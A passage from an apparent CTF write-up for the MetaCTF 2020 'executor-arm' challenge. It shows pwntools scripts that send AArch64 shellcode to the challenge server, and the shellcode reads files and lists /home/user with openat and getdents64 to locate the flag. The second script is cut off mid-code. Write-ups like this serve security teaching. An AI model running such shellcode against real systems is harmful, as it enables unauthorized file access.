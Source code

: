     // read(fd, *buf, size)
    mov  x2, #0xfff
    sub  sp, sp, x2
    mov  x8, xzr
    add  x1, sp, x8
    mov  x8, #63
    svc  #0x1337

    // write(1, *buf, size)
    str  x0, [sp, #-8]!
    lsr  x0, x2, #11
    ldr  x2, [sp], #8
    mov  x8, #64
    svc  #0x1337'''
    r.sendline(asm(p))
    r.interactive()

if __name__ == "__main__":
    main()
{% endhighlight %}

<img src="/images/MetaCTF2020/executor2.png"/>

and we got the file. since the description said the flag is inside the current directory so we have to get directory entries of `/home/user/` 
using getdents64.

my script to get directory entries of `/home/user/`:
{% highlight python %}
from pwn import *
context.arch = "aarch64"
def main():
    r = remote("executor-arm.metaproblems.com",12334)
    p = '''
    // stage 2: get all files and directories inside a directory
    // fd = openat(0, "/home/user", O_RDONLY)
    mov  x0, xzr
    mov  x1, #0x7265
    movk x1, #0x2f, lsl #16
    str  x1, [sp, #-8]!
    mov  x1, #0x682f
    movk x1, #0x6d6f, lsl #16
    movk x1, #0x2f65, lsl #32
    movk x1, #0x7375, lsl #48
    str  x1, [sp, #-8]!
    add  x1, sp, x0
    mov  x2, xzr
    mov  x8, #56
    svc  #0x1337

    // getdents64(fd, *buf, size)
    mov  x2, #0xfff
    sub  sp, sp, x2
    mov  x8, xzr
    add  x1, sp, x8
    mov  x8, #61